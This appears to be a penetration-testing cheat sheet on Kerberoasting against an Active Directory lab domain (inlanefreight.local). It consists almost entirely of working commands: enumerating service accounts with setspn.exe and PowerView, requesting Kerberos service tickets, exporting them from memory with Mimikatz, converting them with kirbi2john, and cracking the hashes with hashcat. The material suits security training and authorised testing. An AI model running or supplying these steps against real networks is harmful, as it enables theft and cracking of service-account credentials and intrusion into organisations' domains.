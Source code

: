 #### setspn.exe manual method 
Enumerating SPNs and request tickets with setspn.exe

```powershell
# Enumerating SPNs
setspn.exe -Q */*

# Targeting a Single User Ticket
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433"

# Retrieving All Tickets Using setspn.exe
setspn.exe -T INLANEFREIGHT.LOCAL -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }
```

Extracting Tickets from Memory with Mimikatz , after requesting the tickets using `setspn.exe` now we need to extract it 
``` powershell
# extract tickets as .kirbi
.\mimikatz.exe  "kerberos::list /export" "exit"

# extract tickets as base64
.\mimikatz.exe "base64 /out:true" "kerberos::list /export" "exit"

# Preparing the Base64 Blob for Cracking
echo "<base64 blob>" |  tr -d \\n  > encoded_file

# Placing the Output into a File as .kirbi
cat encoded_file | base64 -d > sqldev.kirbi

# Extracting the Kerberos Ticket using kirbi2john.py (This will create a file called crack_file)
kirbi2john sqldev.kirbi

# Modifiying crack_file for Hashcat
sed 's/\$krb5tgs\$\(.*\):\(.*\)/\$krb5tgs\$23\$\*\1\*\$\2/' crack_file > sqldev_tgs_hashcat

# Cracking the Hash with Hashcat
hashcat -m 13100 sqldev_tgs_hashcat /usr/share/wordlists/rockyou.txt 
```

#### PowerView method 

```powershell
# Using PowerView to enumrate SPNs
import-Module .\PowerView.ps1
Get-DomainUser * -spn | select samaccountname

# Using PowerView to Target a Specific User
Get-DomainUser -Identity sqldev | Get-DomainSPNTicket -Format Hashcat

# Exporting All Tickets to a CSV File
Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\ilfreight_tgs.csv -NoTypeInformation

```
